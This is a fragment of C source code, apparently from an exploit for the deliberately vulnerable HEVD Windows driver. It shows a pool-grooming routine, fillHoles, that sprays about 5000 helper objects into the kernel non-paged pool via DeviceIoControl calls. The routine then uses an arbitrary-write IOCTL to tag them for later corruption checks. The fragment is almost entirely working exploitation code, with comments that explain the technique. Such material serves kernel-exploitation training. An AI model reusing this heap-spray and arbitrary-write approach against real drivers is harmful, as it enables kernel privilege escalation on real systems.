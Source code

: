 ```c

                // Return the value of the base of HEVD
                return hevdBase;
            }
        }
    }
}

// Function used to fill the holes in pool pages
void fillHoles(HANDLE driverHandle)
{
    // Instantiate an ARW_HELPER_OBJECT_IO
    ARW_HELPER_OBJECT_IO tempObject = { 0 };

    // Value to assign the Name member of each ARW_HELPER_OBJECT_IO
    unsigned long long nameValue = 0x9090909090909090;

    // Set the length to 0x8 so that the Name member of an ARW_HELPER_OBJECT_NON_PAGED_POOL_NX object allocated in the pool has its Name member allocated to size 0x8, a 64-bit pointer size
    tempObject.Length = 0x8;

    // Bytes returned
    DWORD bytesreturnedFill;

    for (int i = 0; i <= 5000; i++)
    {
        // Set the Name value to 0x9090909090909090
        tempObject.Name = &nameValue;

        // Allocate a ARW_HELPER_OBJECT_NON_PAGED_POOL_NX object with a Name member of size 0x8 and a Name value of 0x9090909090909090
        DeviceIoControl(
            driverHandle,
            0x00222063,
            &tempObject,
            sizeof(tempObject),
            &tempObject,
            sizeof(tempObject),
            &bytesreturnedFill,
            NULL
        );

        // Using non-controlled arbitrary write to set the Name member of the ARW_HELPER_OBJECT_NON_PAGED_POOL_NX object to 0x9090909090909090 via the Name member of each ARW_HELPER_OBJECT_IO
        // This will be used later on to filter out which ARW_HELPER_OBJECT_NON_PAGED_POOL_NX HAVE NOT been corrupted successfully (e.g. their Name member is 0x9090909090909090 still)
        DeviceIoControl(
            driverHandle,
            0x00222067,
            &tempObject,
            sizeof(tempObject),
            &tempObject,
            sizeof(tempObject),
            &bytesreturnedFill,
            NULL
        );

        // After allocating the ARW_HELPER_OBJECT_NON_PAGED_POOL_NX objects (via the ARW_HELPER_OBJECT_IO objects), assign each ARW_HELPER_OBJECT_IO structures to the global managing array
        helperobjectArray[i] = tempObject;
    }

```